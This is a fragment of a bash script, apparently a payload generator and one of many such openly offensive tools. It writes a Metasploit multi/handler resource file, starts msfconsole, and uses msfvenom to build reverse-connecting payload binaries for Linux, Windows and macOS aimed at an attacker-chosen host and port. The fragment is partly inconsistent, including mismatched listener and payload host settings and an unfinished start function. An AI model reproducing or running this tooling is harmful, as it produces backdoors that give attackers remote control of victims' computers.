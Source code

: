 }

listener() {
default_listr="Y"
read -p $'\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Start Server and MSF Listener?\e[0m\e[1;77m [Y/n]: ' listr
listr="${listr:-${default_listr}}"
if [[ $listr == Y || $listr == y || $listr == Yes || $listr == yes ]]; then
printf "use exploit/multi/handler\n" > handler.rc
printf "set payload %s\n" $payload >> handler.rc
printf "set LHOST 127.0.0.1\n" >> handler.rc
printf "set LPORT %s\n" $lport >> handler.rc
printf "set ExitOnSession false\n" >> handler.rc
printf "exploit -j -z\n" >> handler.rc
server
msfconsole -r handler.rc
rm -rf handler.rc
fi
}


start() {
default_port=$(seq 1111 4444 | sort -R | head -n1)
default_lport=$(seq 1111 4444 | sort -R | head -n1)
default_port2=$(seq 1111 4444 | sort -R | head -n1)
default_port3=$(seq 1111 4444 | sort -R | head -n1)
lport="${lport:-${default_lport}}"
port="${port:-${default_port}}"
default_payload_name="payload"
printf '\e[1;92m[\e[0m\e[1;77m*\e[0m\e[1;92m] Payload name (Default:\e[0m\e[1;77m %s \e[0m\e[1;92m): \e[0m' $default_payload_name
read payload_name
payload_name="${payload_name:-${default_payload_name}}"



}

binaries_linux() {
format=".elf"
msfvenom -p $payload LHOST=$lhost LPORT=$default_port3 -f elf > $payload_name.elf

}

binaries_windows() {
format=".exe"
msfvenom -p $payload LHOST=$lhost LPORT=$default_port3 -f exe > $payload_name.exe


}

binaries_mac() {
format=".macho"
msfvenom -p $payload LHOST=$lhost LPORT=$default_port3 -f macho > $payload_name.macho


}
